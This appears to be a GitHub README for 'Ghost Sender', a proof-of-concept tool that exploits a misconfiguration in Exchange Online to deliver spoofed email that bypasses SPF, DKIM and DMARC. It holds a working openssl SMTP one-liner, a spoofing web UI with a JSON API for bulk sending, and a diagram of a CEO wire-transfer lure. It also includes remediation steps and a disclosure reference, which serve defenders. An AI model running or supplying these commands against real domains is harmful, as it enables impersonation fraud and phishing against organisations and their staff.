



# Ghost Sender — Exchange Online Email Spoofing PoC

[](LICENSE)
[](https://python.org)

A proof-of-concept for the **Ghost Sender** vulnerability affecting Exchange Online tenants that use an external MX record without a partner connector or transport rule. When exploited, an attacker can deliver spoofed emails directly to any user's inbox, bypassing SPF, DKIM, and DMARC entirely, with no external warning banner.

### Background

| Resource | Link |
|----------|------|
| InfoGuard Labs Disclosure | https://labs.infoguard.ch/posts/ghost-sender/ |
| Microsoft Guidance | https://techcommunity.microsoft.com/blog/exchange/direct-send-vs-sending-directly-to-an-exchange-online-tenant/4439865 |

---

## The Vulnerability

### Vulnerable Configuration

```
┌─────────────────────────────────────────────────────────┐
│                  NORMAL MAIL FLOW                        │
│                                                          │
│  Legit ──▶ MX Gateway ──▶ Exchange Online ──▶ Inbox     │
│  Server    (Filtered)     (Trusted Path)                 │
│                                                          │
│                  ATTACK PATH                             │
│                                                          │
│  Attacker ──▶ Exchange Online ──▶ Inbox                 │
│  (clean IP)  (Direct TCP:25)    (No warning!)           │
│                                                          │
│  When an external MX is configured without a partner     │
│  connector, Exchange Online trusts ALL inbound mail —    │
│  including direct connections bypassing the MX gateway.  │
└─────────────────────────────────────────────────────────┘
```



### What Gets Bypassed

| Mechanism | Expected | Actual |
|-----------|----------|--------|
| **SPF** `-all` | ✗ Reject unauthorized IPs | ✓ Ignored |
| **DKIM** | ✗ Require valid signature | ✓ Ignored |
| **DMARC** `p=reject` | ✗ Reject failures | ✓ Ignored |
| **External Banner** | ✗ Warn recipient | ✓ Not shown |
| **Sender Avatar** | ✗ Unknown sender | ✓ Resolved (internal senders) |

### Why It Works

Exchange Online, when fronted by an external MX, treats all inbound mail as "already filtered" and does not perform its own SPF/DKIM/DMARC enforcement. The attacker simply opens a TCP connection to `domain-com.mail.protection.outlook.com:25` and delivers email as if it came through the trusted gateway path.

### Fixed Configuration



---

## Quick Start

### One-Liner PoC

```bash
./send.sh target-domain.com sender@target-domain.com victim@target-domain.com
```

Or the raw command:

```bash
HOST="target-domain.com"
{ echo "EHLO x"; echo "MAIL FROM:<sender@$HOST>"; echo "RCPT TO:<victim@$HOST>"; \
  echo "DATA"; echo "From: sender@$HOST"; echo "To: victim@$HOST"; \
  echo "Subject: Ghost Sender PoC"; echo ""; echo "SPF/DKIM/DMARC bypassed."; \
  echo "."; echo "QUIT"; sleep 2; \
} | openssl s_client -connect $(echo $HOST | tr '.' '-').mail.protection.outlook.com:25 -starttls smtp -crlf -quiet 2>/dev/null
```

### Mail Server — Web UI + API

```bash
python3 mail-server.py
# → http://localhost:8080
```

**Features:**
- Web form for sending spoofed emails
- Multi-recipient **To** (comma-separated)
- **Cc** support
- JSON API for scripting
- Zero dependencies (Python stdlib only)

**API usage:**
```bash
curl -X POST http://localhost:8080/send \
  -d "from=sender@domain.com" \
  -d "to=victim1@domain.com,victim2@domain.com" \
  -d "cc=witness@domain.com" \
  -d "subject=Test" \
  -d "body=Message"
```

Response:
```json
{
  "success": true,
  "message": "Sent 3/3",
  "results": [
    {"to": "victim1@domain.com", "success": true, "msg": "250 2.6.0 Queued mail for delivery"},
    {"to": "victim2@domain.com", "success": true, "msg": "250 2.6.0 Queued mail for delivery"},
    {"to": "witness@domain.com", "success": true, "msg": "250 2.6.0 Queued mail for delivery"}
  ]
}
```

---

## Requirements

- **Python 3.6+** (stdlib only — no pip installs)
- **Outbound TCP port 25** — not blocked by ISP/cloud provider
  - AWS EC2: ✓ allowed (configure security group)
  - Oracle Cloud: ✗ blocked (requires support ticket)
  - Residential ISP: ✗ usually blocked or PBL-listed
- **Clean IP** — not on Spamhaus PBL/SBL

---

## How It Works — Technical Flow

```mermaid
sequenceDiagram
    participant A as Attacker
    participant EOP as Exchange Online Protection
    participant MB as User Mailbox

    Note over A,MB: Attack — Direct M365 EOP Connection

    A->>EOP: TCP :25 to domain-com.mail.protection.outlook.com
    EOP-->>A: 220 Microsoft ESMTP Ready
    A->>EOP: EHLO x
    EOP-->>A: 250-STARTTLS
    A->>EOP: STARTTLS
    EOP-->>A: 220 Ready
    Note over A,EOP: TLS established
    A->>EOP: MAIL FROM:&lt;ceo@victim.com&gt;
    EOP-->>A: 250 2.1.0 Sender OK
    A->>EOP: RCPT TO:&lt;employee@victim.com&gt;
    EOP-->>A: 250 2.1.5 Recipient OK
    A->>EOP: DATA
    EOP-->>A: 354 Start mail input
    A->>EOP: From: ceo@victim.com<br/>To: employee@victim.com<br/>Subject: Urgent<br/><br/>Wire transfer details...
    A->>EOP: .
    EOP-->>A: 250 2.6.0 Queued mail for delivery
    Note over EOP,MB: ⚠ No SPF check performed
    Note over EOP,MB: ⚠ No DKIM check performed
    Note over EOP,MB: ⚠ No DMARC check performed
    EOP->>MB: Deliver to Inbox
    Note over MB: No external banner<br/>Sender avatar resolved<br/>Appears as internal mail
```



---

## Fix — 3 Options (Pick One)

### Option 1: Partner Organization Connector ✅ Recommended

Exchange Admin Center → Mail Flow → Connectors → Add connector:

| Field | Value |
|-------|-------|
| Connection from | Partner organization |
| How to identify | Use the sender's IP address |
| Sender IP ranges | Your MX gateway's IP ranges |
| Security restrictions | ✓ Reject email if not sent from within this IP range |

### Option 2: Transport Rule (Priority 0)

Exchange Admin Center → Mail Flow → Rules → New rule:

| Condition | Value |
|-----------|-------|
| Apply if | Sender is located **outside** the organization |
| AND | Sender IP addresses **NOT** in your gateway's ranges |
| Do the following | Reject the message with status `5.7.1` |
| Priority | **0** (highest) |

### Option 3: Remove External MX

Point MX records directly to Exchange Online Protection:
```
target-domain-com.mail.protection.outlook.com
```
Then enable Enhanced Filtering for Connectors if third-party filtering is still required.

---

## Files

| File | Description |
|------|-------------|
| `send.sh` | One-liner PoC — single spoofed email |
| `mail-server.py` | Full mail server — web UI + API + multi-recipient |
| `docs/vulnerable-flow.svg` | Diagram — vulnerable configuration |
| `docs/fixed-flow.svg` | Diagram — fixed configuration |

---

## Legal

**Authorized use only.** This tool is for testing your own infrastructure or domains you have written authorization to test. Do not use against systems without explicit permission. The authors assume no liability for misuse.
